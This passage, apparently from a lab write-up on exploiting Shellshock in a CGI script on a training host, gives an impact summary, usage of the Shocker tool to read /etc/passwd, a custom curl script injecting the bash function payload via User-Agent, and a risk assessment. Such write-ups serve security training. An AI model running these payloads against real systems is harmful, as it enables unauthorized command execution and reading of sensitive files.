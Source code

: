 ### Impact Assessment:
- **Remote Code Execution:** Confirmed via multiple commands
- **File System Access:** Ability to read sensitive files (/etc/passwd)
- **Process Information:** Complete process listing obtained
- **Privilege Level:** daemon user context
- **Potential Escalation:** Root process identified for further exploitation

---

## 🔧 Tools and Automation

### Shocker - Shellshock Exploitation Tool
```bash
# Clone and use Shocker
git clone https://github.com/nccgroup/shocker.git
cd shocker
python shocker.py -H target.com --command "cat /etc/passwd" --cgipath /cgi-bin/test.cgi
```

### Custom Exploitation Script
```bash
#!/bin/bash
# Simple Shellshock tester

TARGET="$1"
CGI_PATH="$2"
COMMAND="$3"

curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c '$COMMAND'" \
     "http://$TARGET$CGI_PATH" 2>/dev/null

# Usage: ./shellshock.sh demo.ine.local /gettime.cgi "whoami"
```

---

## 🚨 Impact and Risk Assessment

### Potential Impact:
- **Remote Code Execution** - Full system compromise
- **Data Exfiltration** - Access to sensitive files
- **Privilege Escalation** - Potential root access
- **Lateral Movement** - Network reconnaissance and pivoting
- **Persistent Access** - Backdoor installation

### Risk Factors:
- Publicly accessible CGI scripts
- Web servers running vulnerable Bash versions
- Insufficient input validation
- Legacy systems without security updates

---
